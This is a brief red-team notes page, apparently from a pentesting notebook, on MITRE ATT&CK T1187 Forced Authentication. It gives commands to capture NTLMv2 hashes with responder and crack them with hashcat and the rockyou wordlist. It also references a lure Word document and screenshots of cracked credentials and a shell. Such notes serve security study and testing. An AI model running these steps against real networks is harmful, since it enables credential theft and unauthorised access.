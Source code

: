 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution

```csharp
responder -I eth1
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

![](../.gitbook/assets/forced-auth-hashes.png)

![](../.gitbook/assets/forced-auth-cracked.png)

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Observations

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1187\",\"type\":\"link\",\"title\":\"Forced Authentication - ATT&CK for Enterprise\"}" %}

